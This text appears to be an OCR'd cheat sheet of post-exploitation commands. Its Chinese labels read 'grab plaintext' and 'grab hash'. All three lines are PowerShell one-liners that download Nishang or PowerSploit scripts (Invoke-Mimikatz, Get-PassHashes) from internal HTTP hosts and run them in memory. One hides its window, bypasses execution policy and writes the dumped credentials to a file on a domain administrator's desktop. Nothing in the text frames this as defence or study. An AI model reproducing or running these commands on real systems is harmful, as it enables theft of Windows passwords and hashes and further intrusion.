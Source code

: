 	抓明文
	>powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.108/nishang/Gather/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
	抓hash
	>powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.100/nishang/Gather/Get-PassHashes.ps1');Get-PassHashes
	>powershell -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/powersploit/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz" >C:\Users\Administrator.DC\Desktop\1123.txt